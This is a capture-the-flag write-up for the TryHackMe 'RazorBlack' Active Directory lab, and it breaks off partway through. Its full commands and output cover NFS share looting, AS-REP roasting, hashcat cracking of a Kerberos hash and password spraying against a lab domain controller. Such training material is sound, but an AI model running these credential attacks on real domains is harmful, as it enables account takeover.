

# RazorBlack

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Medium
Tags: Windows
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Subscription type: Free
Description:
These guys call themselves hackers. Can you show them who's the boss ??
```

Room link: [https://tryhackme.com/room/raz0rblack](https://tryhackme.com/room/raz0rblack)

## Solution

### Task 1: Deploy The Box

#### Set up your virtual environment

To successfully complete this room, you'll need to set up your virtual environment. This involves starting both your AttackBox (if you're not using your VPN) and Lab Machines, ensuring you're equipped with the necessary tools and access to tackle the challenges ahead.

Throw something like a rock on the big green thingy on the right side here to deploy your box.

The box has ICMP enabled. So, look at ping first before starting recon and stop slapping `-Pn` on nmap.

This room is proudly made by: [Xyan1d3](https://twitter.com/xyan1d3)

Every solver of this box will get a free cookie when completing this box.

If you enjoy this room, please let me know by tagging me on Twitter. You may also contact me in case of some unintended routes or bugs, and I will be happy to resolve them. Also, let me know which part you enjoyed and which part made you struggle.

---------------------------------------------------------------------------------------

#### Deploy the machine and check for ping before starting recon

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ export TARGET_IP=10.113.131.41 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ ping -c 3 $TARGET_IP 
PING 10.113.131.41 (10.113.131.41) 56(84) bytes of data.
64 bytes from 10.113.131.41: icmp_seq=1 ttl=126 time=24.3 ms
64 bytes from 10.113.131.41: icmp_seq=2 ttl=126 time=24.1 ms
64 bytes from 10.113.131.41: icmp_seq=3 ttl=126 time=24.9 ms

--- 10.113.131.41 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2013ms
rtt min/avg/max/mdev = 24.056/24.401/24.892/0.356 ms
```

---------------------------------------------------------------------------------------

### Task 2: Flag Submission

This will test your Active Directory enumeration and exploitation knowledge.

Submit your flags and answers to prove your progression.

We start by scanning the machine on all ports with `nmap` including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ sudo nmap -sC -sV -p- $TARGET_IP   
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-18 17:27 +0200
Nmap scan report for 10.113.131.41
Host is up (0.025s latency).
Not shown: 65508 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-18 15:28:25Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: raz0rblack.thm, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-08-18T15:29:29+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RAZ0RBLACK
|   NetBIOS_Domain_Name: RAZ0RBLACK
|   NetBIOS_Computer_Name: HAVEN-DC
|   DNS_Domain_Name: raz0rblack.thm
|   DNS_Computer_Name: HAVEN-DC.raz0rblack.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2026-08-18T15:29:21+00:00
| ssl-cert: Subject: commonName=HAVEN-DC.raz0rblack.thm
| Not valid before: 2026-08-17T15:26:30
|_Not valid after:  2027-02-16T15:26:30
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HAVEN-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-08-18T15:29:22
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.36 seconds
```

We have a lot of TCP-services running and available:

- A Simple DNS Plus server running on port 53
- [Kerberos](https://en.wikipedia.org/wiki/Kerberos_(protocol)) running on port 88
- RPC [Portmap](https://en.wikipedia.org/wiki/Portmap) running on port 111
- [Microsoft RPC](https://en.wikipedia.org/wiki/Microsoft_RPC) running on port 135
- [NetBIOS Session Service](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP#Session_service) on port 139
- An [LDAP](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol) server running on port 389
- [SMB](https://en.wikipedia.org/wiki/Server_Message_Block) on port 445
- [Network File System](https://en.wikipedia.org/wiki/Network_File_System) running on port 2049
- A [Global Catalog](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc728188(v=ws.10)) service running on ports 3268 and 3269
- [Remote Desktop Server](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol) running on port 3389
- A [WinRM](https://en.wikipedia.org/wiki/Windows_Remote_Management) service running on port 5985

> [!NOTE]  
> The machine crashed / became unresponsive several times during the challenge. Therefore, you will see several IP-adresses used for the machine. That was really annoying!

---------------------------------------------------------------------------------------

#### What is the Domain Name?

From the output above we can see that the server is a Windows domain controller from the domain `raz0rblack.thm`.

Answer: `raz0rblack.thm`

---------------------------------------------------------------------------------------

For convenience we will update our `/etc/hosts` file with the help of NetExec.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc smb $TARGET_IP --generate-hosts-file hosts.txt
SMB         10.113.131.41   445    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:None) (Null Auth:True)

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ cat hosts.txt 
10.113.131.41     HAVEN-DC.raz0rblack.thm raz0rblack.thm HAVEN-DC

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ sudo vi /etc/hosts
[sudo] password for kali: 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ tail -n2 /etc/hosts
10.113.131.41     HAVEN-DC.raz0rblack.thm raz0rblack.thm HAVEN-DC

```

Next, we check for shares and users with `NetExec`.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc smb $TARGET_IP -u '' -p '' --shares
SMB         10.113.131.41   445    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.113.131.41   445    HAVEN-DC         [+] raz0rblack.thm\: 
SMB         10.113.131.41   445    HAVEN-DC         [-] Error enumerating shares: STATUS_ACCESS_DENIED

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc smb $TARGET_IP -u Guest -p '' --shares
SMB         10.113.131.41   445    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.113.131.41   445    HAVEN-DC         [-] raz0rblack.thm\Guest: STATUS_ACCOUNT_DISABLED 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc ldap $TARGET_IP -u '' -p '' --users
LDAP        10.113.131.41   389    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:None) (channel binding:No TLS cert) 
LDAP        10.113.131.41   389    HAVEN-DC         [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
LDAP        10.113.131.41   389    HAVEN-DC         [+] raz0rblack.thm\: 
LDAP        10.113.131.41   389    HAVEN-DC         [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc ldap $TARGET_IP -u Guest -p '' --users
LDAP        10.113.131.41   389    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:None) (channel binding:No TLS cert) 
LDAP        10.113.131.41   389    HAVEN-DC         [-] raz0rblack.thm\Guest: STATUS_ACCOUNT_DISABLED
```

No luck there!

But there was also NFS running. Let's check that!

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ showmount -e $TARGET_IP 
Export list for 10.113.131.41:
/users (everyone)

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ sudo mount -t nfs $TARGET_IP:/users /mnt/mount_pt -o nolock 
[sudo] password for kali: 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ sudo ls -la /mnt/mount_pt    
total 17
drwx------ 2 nobody nogroup   64 Feb 27  2021 .
drwxr-xr-x 4 root   root    4096 Dec 19  2024 ..
-rwx------ 1 nobody nogroup 9861 Feb 25  2021 employee_status.xlsx
-rwx------ 1 nobody nogroup   80 Feb 25  2021 sbradley.txt

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ sudo -i              
┌──(root㉿kali)-[~]
└─# cd /mnt/mount_pt 

┌──(root㉿kali)-[/mnt/mount_pt]
└─# ls             
employee_status.xlsx  sbradley.txt

┌──(root㉿kali)-[/mnt/mount_pt]
└─# cp * /mnt/hgfs/Wargames/TryHackMe/Challenges/Medium/RazorBlack 

┌──(root㉿kali)-[/mnt/mount_pt]
└─# cd /mnt/hgfs/Wargames/TryHackMe/Challenges/Medium/RazorBlack

┌──(root㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─# chown kali:kali employee_status.xlsx sbradley.txt           

┌──(root㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─# exit

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ 
```

---------------------------------------------------------------------------------------

#### What is Steven's Flag?

We find the first flag in the `sbradley.txt` file.

```cat
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ cat sbradley.txt                                     
��THM{<REDACTED>}
```

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------------------

In the `employee_status.xlsx` we find the members of the `HAVEN SECRET HACKER's CLUB`.



Unfortunately, we don't know the username format yet!

But common formats are:

- `<first_name>.<lastname>`
- `<first_name_initial><lastname>`
- `<first_name_initial>.<lastname>`

Let's manually create a file with these combinations from the Excel file.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ vi users.txt

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ cat users.txt 
daven.port
dport
d.port
imogen.royce
iroyce
i.royce
tamara.vidal
tvidal
t.vidal
arthur.edwards
aedwards
a.edwards
carl.ingram
cingram
c.ingram
nolan.cassidy
ncassidy
n.cassidy
reza.zaydan
rzaydan
r.zaydan
ljudmila.vetrova
lvetrova
l.vetrova
rico.delgado
rdelgado
r.delgado
tyson.williams
twilliams
t.williams
steven.bradley
sbradley
s.bradley
chamber.lin
clin
c.lin

```

We use this file and try AS-REP roasting with Impacket.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ impacket-GetNPUsers -dc-ip $TARGET_IP -no-pass -usersfile users.txt -outputfile asrep_hashes.txt raz0rblack.thm/ 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User lvetrova doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:ede4ee4cb88d161df909b3644a9f80ab$01e9f1c3ad41e899ee3e132dc4bcf0095878798f7899cad6f36ea896a5fa814341c0c58a822c9461a54a8ec9c78f6e38b5b3f216c9be5a357ed83e976bf29e865a88509f69cf5c7d435f7db167ece41c9269ef2e8407a66584fd9ca11c88f3e6cf5fee1ebc747dfe9a0231d989b0d4b0241e48cb14c52e887c1d2492ff3b77400700e67b1095e71c10d176b9540e64c4d986979d7ced989297a917e0358ae356b856ae6b3ccb597d65ec2af86da211378f686d35136bde172f5d54b872be752735a5b81a40ea694812366e8b28f0a3babfa607a3d3e534643c0b93a6b16f458a3c4efee6c0ea870324be6025d32926e8
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User sbradley doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

We have verified three usernames:

- `lvetrova`
- `twilliams`
- `sbradley`

And also got a hash for `twilliams`.

Then we try to crack the hash with hashcat.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$twilliams@RAZ0RBLACK.THM:ede4ee4cb88d161df909b3644a9f80ab$01e9f1c3ad41e899ee3e132dc4bcf0095878798f7899cad6f36ea896a5fa814341c0c58a822c9461a54a8ec9c78f6e38b5b3f216c9be5a357ed83e976bf29e865a88509f69cf5c7d435f7db167ece41c9269ef2e8407a66584fd9ca11c88f3e6cf5fee1ebc747dfe9a0231d989b0d4b0241e48cb14c52e887c1d2492ff3b77400700e67b1095e71c10d176b9540e64c4d986979d7ced989297a917e0358ae356b856ae6b3ccb597d65ec2af86da211378f686d35136bde172f5d54b872be752735a5b81a40ea694812366e8b28f0a3babfa607a3d3e534643c0b93a6b16f458a3c4efee6c0ea870324be6025d32926e8:roastpotatoes
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$twilliams@RAZ0RBLACK.THM:ede4ee4cb88d...2926e8
Time.Started.....: Tue Aug 18 18:49:29 2026 (3 secs)
Time.Estimated...: Tue Aug 18 18:49:32 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1463.5 kH/s (1.20ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4222976/14344385 (29.44%)
Rejected.........: 0/4222976 (0.00%)
Restore.Point....: 4218880/14344385 (29.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: robert2104 -> roadcross21
Hardware.Mon.#1..: Util: 61%

Started: Tue Aug 18 18:49:25 2026
Stopped: Tue Aug 18 18:49:34 2026
```

The `twilliams` user's password is `roastpotatoes`.

Now that we have credentials, we should re-check shares and users.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc smb $TARGET_IP -u twilliams -p 'roastpotatoes' --shares
SMB         10.112.167.0    445    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.112.167.0    445    HAVEN-DC         [+] raz0rblack.thm\twilliams:roastpotatoes 
SMB         10.112.167.0    445    HAVEN-DC         [*] Enumerated shares
SMB         10.112.167.0    445    HAVEN-DC         Share           Permissions     Remark
SMB         10.112.167.0    445    HAVEN-DC         -----           -----------     ------
SMB         10.112.167.0    445    HAVEN-DC         ADMIN$                          Remote Admin
SMB         10.112.167.0    445    HAVEN-DC         C$                              Default share
SMB         10.112.167.0    445    HAVEN-DC         IPC$            READ            Remote IPC
SMB         10.112.167.0    445    HAVEN-DC         NETLOGON        READ            Logon server share 
SMB         10.112.167.0    445    HAVEN-DC         SYSVOL          READ            Logon server share 
SMB         10.112.167.0    445    HAVEN-DC         trash                           Files Pending for deletion

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc smb $TARGET_IP -u twilliams -p 'roastpotatoes' --users 
SMB         10.112.167.0    445    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.112.167.0    445    HAVEN-DC         [+] raz0rblack.thm\twilliams:roastpotatoes 
SMB         10.112.167.0    445    HAVEN-DC         -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.112.167.0    445    HAVEN-DC         Administrator                 2021-02-23 14:20:14 0       Built-in account for administering the computer/domain 
SMB         10.112.167.0    445    HAVEN-DC         Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.112.167.0    445    HAVEN-DC         krbtgt                        2021-02-23 15:02:19 0       Key Distribution Center Service Account 
SMB         10.112.167.0    445    HAVEN-DC         xyan1d3                       2021-02-23 15:17:17 0        
SMB         10.112.167.0    445    HAVEN-DC         lvetrova                      2021-02-23 15:19:35 0        
SMB         10.112.167.0    445    HAVEN-DC         sbradley                      <never>             0        
SMB         10.112.167.0    445    HAVEN-DC         twilliams                     2021-02-23 15:20:52 0        
SMB         10.112.167.0    445    HAVEN-DC         [*] Enumerated 7 local users: RAZ0RBLACK
```

The most interesting share to check is the non-standard `trash` share, but we don't have access to it!

We also check members for key remote access groups.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc ldap $TARGET_IP -u twilliams -p 'roastpotatoes' --groups 'Remote Management Users'
LDAP        10.112.167.0   389    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:None) (channel binding:No TLS cert) 
LDAP        10.112.167.0   389    HAVEN-DC         [+] raz0rblack.thm\twilliams:roastpotatoes 
LDAP        10.112.167.0   389    HAVEN-DC         xyan1d3
LDAP        10.112.167.0   389    HAVEN-DC         lvetrova

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc ldap $TARGET_IP -u twilliams -p 'roastpotatoes' --groups 'Remote Desktop Users'   
LDAP        10.112.167.0   389    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:None) (channel binding:No TLS cert) 
LDAP        10.112.167.0   389    HAVEN-DC         [+] raz0rblack.thm\twilliams:roastpotatoes 
LDAP        10.112.167.0   389    HAVEN-DC         [-] Group 'Remote Desktop Users' has no members
```

Let's see if any of the other users are using our known password?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ vi users2.txt

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ cat users2.txt 
Administrator
Guest
xyan1d3
lvetrova
sbradley
twilliams

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc smb $TARGET_IP -u users2.txt -p 'roastpotatoes'        
SMB         10.112.167.0    445    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.112.167.0    445    HAVEN-DC         [-] raz0rblack.thm\Administrator:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.112.167.0    445    HAVEN-DC         [-] raz0rblack.thm\Guest:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.112.167.0    445    HAVEN-DC         [-] raz0rblack.thm\xyan1d3:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.112.167.0    445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.112.167.0    445    HAVEN-DC         [-] raz0rblack.thm\sbradley:roastpotatoes STATUS_PASSWORD_MUST_CHANGE 
SMB         10.112.167.0    445    HAVEN-DC         [+] raz0rblack.thm\twilliams:roastpotatoes 
```

No, but `sbradley` must change his password. Let's do that after checking the password policy.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc smb $TARGET_IP -u twilliams -p 'roastpotatoes' --pass-pol
SMB         10.112.172.216  445    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.112.172.216  445    HAVEN-DC         [+] raz0rblack.thm\twilliams:roastpotatoes 
SMB         10.112.172.216  445    HAVEN-DC         [+] Dumping password info for domain: RAZ0RBLACK
SMB         10.112.172.216  445    HAVEN-DC         Minimum password length: 8
SMB         10.112.172.216  445    HAVEN-DC         Password history length: None
SMB         10.112.172.216  445    HAVEN-DC         Maximum password age: Not Set
SMB         10.112.172.216  445    HAVEN-DC         
SMB         10.112.172.216  445    HAVEN-DC         Password Complexity Flags: 000000
SMB         10.112.172.216  445    HAVEN-DC             Domain Refuse Password Change: 0
SMB         10.112.172.216  445    HAVEN-DC             Domain Password Store Cleartext: 0
SMB         10.112.172.216  445    HAVEN-DC             Domain Password Lockout Admins: 0
SMB         10.112.172.216  445    HAVEN-DC             Domain Password No Clear Change: 0
SMB         10.112.172.216  445    HAVEN-DC             Domain Password No Anon Change: 0
SMB         10.112.172.216  445    HAVEN-DC             Domain Password Complex: 0
SMB         10.112.172.216  445    HAVEN-DC         
SMB         10.112.172.216  445    HAVEN-DC         Minimum password age: None
SMB         10.112.172.216  445    HAVEN-DC         Reset Account Lockout Counter: 30 minutes 
SMB         10.112.172.216  445    HAVEN-DC         Locked Account Duration: 30 minutes 
SMB         10.112.172.216  445    HAVEN-DC         Account Lockout Threshold: None
SMB         10.112.172.216  445    HAVEN-DC         Forced Log off Time: Not Set

